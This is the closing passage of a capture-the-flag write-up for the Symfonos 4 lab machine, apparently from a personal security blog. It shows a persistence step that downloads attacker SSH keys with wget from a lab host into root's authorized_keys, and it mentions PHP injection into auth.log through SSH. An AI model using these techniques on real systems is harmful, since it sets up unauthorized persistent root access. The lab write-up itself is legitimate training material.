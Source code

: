 ## 4. Make It Permanent

Let's make sure we keep our root access by adding our SSH keys to the root user.

    # On Kali
    cp ~/.ssh/authorized_keys /tmp/sym4/keys
    
    # On VM in reverse shell
    mkdir -p /root/.ssh/
    wget http://192.168.56.102:8000/keys -O /root/.ssh/authorized_keys
    
Once we're done, let's go ahead and SSH in and get a true root shell.

![Turn it into a Jenkins build machine for i686 binaries or something.](.images/perm.png)

And, you've successfully finished Symfonos 4. Make a writeup and start a security blog or put it on GitHub.

## Final Thoughts

This was a really fun CTF overall, and I enjoyed it immensely. There's probably a lot of optimization you can do to my steps, but I'm neither good at redteaming nor making things elegant. It works, and that's good enough.

I did, however, run into a very annoying issue that forced me to restart the CTF. If bad PHP code is injected in to `auth.log` via SSH, you can potentially lose that entrypoint entirely. This is not a fun feeling, but I'm sure there's some realistic way around this. I just never found it.

If you have any suggestions for how I could do this CTF better, have any CTFs you want me to waste time on, or just want to chat to me about security in general, feel free to ping me [on Keybase](https://keybase.io/kazwolfe), send a message to me [on Discord](https://discord.gg/y56NMeW), or whatever you find. Consider it a challenge. 

### Errata
